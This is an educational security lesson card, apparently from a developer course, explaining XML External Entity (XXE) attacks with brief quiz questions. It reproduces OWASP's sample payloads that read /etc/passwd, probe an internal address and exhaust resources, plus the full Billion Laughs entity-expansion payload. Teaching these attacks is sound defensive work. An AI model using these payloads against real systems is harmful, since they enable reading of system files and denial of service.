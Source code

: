 ```yaml
---
author: lizTheDeveloper
type: normal
category: hack
links:
  - >-
    [OWASP Top
    Ten](https://www.owasp.org/images/7/72/OWASP_Top_10-2017_%28en%29.pdf.pdf){website}
  - >-
    [Billion Laughs
    Attack](https://en.wikipedia.org/wiki/Billion_laughs_attack){website}
  - >-
    [Security Briefs - XML Denial of Service Attacks and
    Defenses](https://msdn.microsoft.com/en-us/magazine/ee335713.aspx){website}
  - >-
    [SAML Security XML External Entity
    Attack](https://secretsofappsecurity.blogspot.com/2017/01/saml-security-xml-external-entity-attack.html){website}
  - >-
    [Detecting and exploiting XXE in SAML
    Interfaces](https://web-in-security.blogspot.com/2014/11/detecting-and-exploiting-xxe-in-saml.html){website}
  - '[CVE-611](https://cwe.mitre.org/data/definitions/611.html){website}'
---
```


# eXternal XML Entities


---

## Content

OWASP describes XXE as Xternal XML Entities, which is a vulnerability vector in XML documents that allows them to embed other documents, including local system files, in XML documents. If these processors run or execute these files with elevated permissions, attackers can inject malicious instructions in their XML files.

These examples from *OWASP's Top Ten* list show how the data can be configured to execute external scripts:

**Scenario #1**: The attacker attempts to extract data from the
server:

```plain-text
<?xml version="1.0"
 encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM
 "file:///etc/passwd" >]>
<foo>&xxe;</foo>
```

**Scenario #2**: An attacker probes the server's private network by
changing the above ENTITY line to:

```plain-text
<!ENTITY xxe
SYSTEM "https://192.168.1.1/private" >]>
```

**Scenario #3**: An attacker attempts a denial-of-service attack by
including a potentially endless file:

```plain-text
<!ENTITY xxe
SYSTEM "file:///dev/random" >]>
```

Here's an example of this attack that was a widespread problem due to it's simplicity, called the **Billion Laughs Attack**:

```plain-text
<?xml version="1.0"?>
<!DOCTYPE lolz [
 <!ENTITY lol "lol">
 <!ELEMENT lolz (#PCDATA)>
 <!ENTITY lol1
 "&lol;&lol;&lol;&lol;&lol;
  &lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol2
 "&lol1;&lol1;&lol1;&lol1;&lol1;
 &lol1;&lol1;&lol1;&lol1;&lol1;">
 <!ENTITY lol3
 "&lol2;&lol2;&lol2;&lol2;&lol2;
 &lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4
 "&lol3;&lol3;&lol3;&lol3;&lol3;
 &lol3;&lol3;&lol3;&lol3;&lol3;">
 <!ENTITY lol5
 "&lol4;&lol4;&lol4;&lol4;&lol4;
 &lol4;&lol4;&lol4;&lol4;&lol4;">
 <!ENTITY lol6
 "&lol5;&lol5;&lol5;&lol5;&lol5;
 &lol5;&lol5;&lol5;&lol5;&lol5;">
 <!ENTITY lol7
 "&lol6;&lol6;&lol6;&lol6;&lol6;
 &lol6;&lol6;&lol6;&lol6;&lol6;">
 <!ENTITY lol8
 "&lol7;&lol7;&lol7;&lol7;&lol7;
 &lol7;&lol7;&lol7;&lol7;&lol7;">
 <!ENTITY lol9
 "&lol8;&lol8;&lol8;&lol8;&lol8;
 &lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```

From Wikipedia:

> When an XML parser loads this document, it sees that it includes one root element, "lolz", that contains the text "&lol9;". However, "&lol9;" is a defined entity that expands to a string containing ten "&lol8;" strings. Each "&lol8;" string is a defined entity that expands to ten "&lol7;" strings, and so on. After all the entity expansions have been processed, this small (< 1 KB) block of XML will actually contain 10^9 = a billion "lol"s, taking up almost 3 gigabytes of memory.


---

## Practice

An XXE attack affects what components of an application?
???

* XML Processors
* HTTP Endpoints
* Network Firewall
* HTML DOM


---

## Revision

An XXE attack comes from exploiting what?
???

* External Entities
* Unvalidated Input
* Untested Code
* Malformed Requests
 
